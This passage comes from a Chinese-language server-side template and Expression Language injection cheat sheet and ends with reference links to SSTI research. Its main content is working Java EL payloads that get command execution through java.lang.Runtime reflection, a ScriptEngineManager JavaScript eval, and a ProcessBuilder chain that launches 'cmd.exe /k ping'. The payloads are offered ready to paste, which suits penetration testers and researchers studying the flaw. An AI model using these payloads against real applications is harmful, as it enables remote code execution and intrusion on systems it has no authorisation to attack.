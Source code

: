 - 使用`java.lang.Runtime`的方法 #3 - 通过`invoke`访问

    ```java
    ${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('COMMAND_HERE')}
    ```

- 使用`java.lang.Runtime`的方法 #3 - 通过`javax.script.ScriptEngineManager`访问

    ```java
    ${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}
    ```

- 使用`java.lang.ProcessBuilder`的方法

    ```java
    ${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
    ${request.getAttribute("c").add("cmd.exe")}
    ${request.getAttribute("c").add("/k")}
    ${request.getAttribute("c").add("ping x.x.x.x")}
    ${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
    ${request.getAttribute("a")}
    ```

## 参考文献

- [服务器端模板注入 - 以Pebble为例 - Michał Bentkowski - 2019年9月17日](https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/)
- [服务器端模板注入：现代Web应用的远程代码执行 - James Kettle (@albinowax) - 2015年12月10日](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
- [服务器端模板注入：现代Web应用的远程代码执行（PDF） - James Kettle (@albinowax) - 2015年8月8日](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
- [服务器端模板注入：现代Web应用的远程代码执行（视频） - James Kettle (@albinowax) - 2015年12月28日](https://www.youtube.com/watch?v=3cT0uE7Y87s)
- [VelocityServlet表达式语言注入 - MagicBlue - 2017年11月15日](https://magicbluech.github.io/2017/11/15/VelocityServlet-Expression-language-Injection/)
- [Bean Stalking：将Java Bean成长为远程代码执行 - Alvaro Munoz - 2020年7月7日](https://securitylab.github.com/research/bean-validation-RCE)
- [漏洞分析：绕过Akamai WAF的Spring Boot错误页面中的SSTI导致远程代码执行 - Peter M (@pmnh_) - 2022年12月4日](https://h1pmnh.github.io/post/writeup_spring_el_waf_bypass/)
- [表达式语言注入 - OWASP - 2019年12月4日](https://owasp.org/www-community/vulnerabilities/Expression_Language_Injection)
- [表达式语言注入 - PortSwigger - 2019年1月27日](https://portswigger.net/kb/issues/00100f20_expression-language-injection)
- [利用Spring表达式语言（SpEL）注入漏洞（即Magic SpEL）获取远程代码执行 - Xenofon Vassilakopoulos - 2021年11月18日](https://xen0vas.github.io/Leveraging-the-SpEL-Injection-Vulnerability-to-get-RCE/)
- [通过EL注入在HubSpot中实现RCE - @fyoorer - 2018年12月7日](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)
- [利用EL注入漏洞实现远程代码执行 - Asif Durani - 2019年1月29日](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf)